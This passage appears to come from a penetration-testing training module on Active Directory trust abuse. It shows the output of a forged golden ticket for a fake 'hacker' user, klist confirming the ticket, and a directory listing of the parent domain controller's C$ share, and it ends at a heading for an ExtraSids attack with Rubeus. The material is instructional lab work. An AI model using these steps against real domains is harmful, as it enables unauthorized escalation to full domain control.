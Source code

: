 ```powershell-session
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

We can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory.

#### Confirming a Kerberos Ticket is in Memory Using klist

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.

#### Listing the Entire C: Drive of the Domain Controller

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```

---

## ExtraSids Attack - Rubeus

